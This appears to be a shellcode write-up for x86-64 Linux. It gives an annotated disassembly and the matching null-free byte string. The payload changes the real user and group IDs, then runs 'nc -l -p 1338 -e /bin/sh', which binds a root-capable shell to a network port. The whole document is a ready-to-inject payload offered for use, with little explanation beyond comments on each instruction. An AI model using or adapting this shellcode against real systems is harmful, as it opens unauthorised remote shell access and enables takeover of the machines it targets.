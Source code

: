 0:  48 31 c0                xor    rax,rax                          # clean rax
3:  48 c7 c7 e9 03 00 00    mov    rdi,0x3e9                        # 1001
a:  48 c7 c6 e9 03 00 00    mov    rsi,0x3e9
11: b0 71                   mov    al,0x71                          # setreuid
13: 0f 05                   syscall
15: 48 c7 c7 64 00 00 00    mov    rdi,0x64                         # 100
1c: 48 c7 c6 64 00 00 00    mov    rsi,0x64
23: b0 72                   mov    al,0x72                          # setregid
25: 0f 05                   syscall
27: 48 31 d2                xor    rdx,rdx                          # NULL-bytes
2a: 48 bf ff ff ff ff ff    movabs rdi,0x636e2fffffffffff           # /nc as cn/
31: 2f 6e 63
34: 48 c1 ef 28             shr    rdi,0x28                         # padding nc/ to fit with nib/rsu/
38: 57                      push   rdi
39: 48 bf 2f 75 73 72 2f    movabs rdi,0x6e69622f7273752f           # /usr/bin as nib/rsu/
40: 62 69 6e
43: 57                      push   rdi
44: 48 89 e7                mov    rdi,rsp                          # pointer to /usr/bin/nc
47: 48 b9 ff 2f 62 69 6e    movabs rcx,0x68732f6e69622fff           # /bin/sh
4e: 2f 73 68
51: 48 c1 e9 08             shr    rcx,0x8                          # shift 8 bits  (could use /bin/ash instead)
55: 51                      push   rcx
56: 48 89 e1                mov    rcx,rsp
59: 48 bb ff ff ff ff ff    movabs rbx,0x652dffffffffffff           # -e
60: ff 2d 65
63: 48 c1 eb 30             shr    rbx,0x30
67: 53                      push   rbx
68: 48 89 e3                mov    rbx,rsp
6b: 49 ba ff ff ff ff 31    movabs r10,0x38333331ffffffff           # 1338
72: 33 33 38
75: 49 c1 ea 20             shr    r10,0x20
79: 41 52                   push   r10
7b: 49 89 e2                mov    r10,rsp
7e: 49 b9 ff ff ff ff ff    movabs r9,0x702dffffffffffff            # -p
85: ff 2d 70
88: 49 c1 e9 30             shr    r9,0x30
8c: 41 51                   push   r9
8e: 49 89 e1                mov    r9,rsp
91: 49 b8 ff ff ff ff ff    movabs r8,0x6c2dffffffffffff            # -l
98: ff 2d 6c
9b: 49 c1 e8 30             shr    r8,0x30
9f: 41 50                   push   r8
a1: 49 89 e0                mov    r8,rsp
a4: 52                      push   rdx                              0x0000000000000000
a5: 51                      push   rcx                              /bin/sh
a6: 53                      push   rbx                              -e
a7: 41 52                   push   r10                              1338
a9: 41 51                   push   r9                               -p
ab: 41 50                   push   r8                               -l          
ad: 57                      push   rdi                              pointer to /usr/bin/nc
ae: 48 89 e6                mov    rsi,rsp                          
b1: 48 31 c0                xor    rax,rax
b4: b0 3b                   mov    al,0x3b                          # execv syscall code
b6: 0f 05                   syscall
b8: 90                      nop
b9: 90                      nop
ba: 90                      nop


used: https://defuse.ca/online-x86-assembler.htm#disassembly to convert the ASM

String Literal:

"\x48\x31\xC0\x48\xC7\xC7\xE9\x03\x00\x00\x48\xC7\xC6\xE9\x03\x00\x00\xB0\x71\x0F\x05\x48\xC7\xC7\x64\x00\x00\x00\x48\xC7\xC6\x64\x00\x00\x00\xB0\x72\x0F\x05\x48\x31\xD2\x48\xBF\xFF\xFF\xFF\xFF\xFF\x2F\x6E\x63\x48\xC1\xEF\x28\x57\x48\xBF\x2F\x75\x73\x72\x2F\x62\x69\x6E\x57\x48\x89\xE7\x48\xB9\xFF\x2F\x62\x69\x6E\x2F\x73\x68\x48\xC1\xE9\x08\x51\x48\x89\xE1\x48\xBB\xFF\xFF\xFF\xFF\xFF\xFF\x2D\x65\x48\xC1\xEB\x30\x53\x48\x89\xE3\x49\xBA\xFF\xFF\xFF\xFF\x31\x33\x33\x38\x49\xC1\xEA\x20\x41\x52\x49\x89\xE2\x49\xB9\xFF\xFF\xFF\xFF\xFF\xFF\x2D\x70\x49\xC1\xE9\x30\x41\x51\x49\x89\xE1\x49\xB8\xFF\xFF\xFF\xFF\xFF\xFF\x2D\x6C\x49\xC1\xE8\x30\x41\x50\x49\x89\xE0\x52\x51\x53\x41\x52\x41\x51\x41\x50\x57\x48\x89\xE6\x48\x31\xC0\xB0\x3B\x0F\x05\x90\x90\x90"
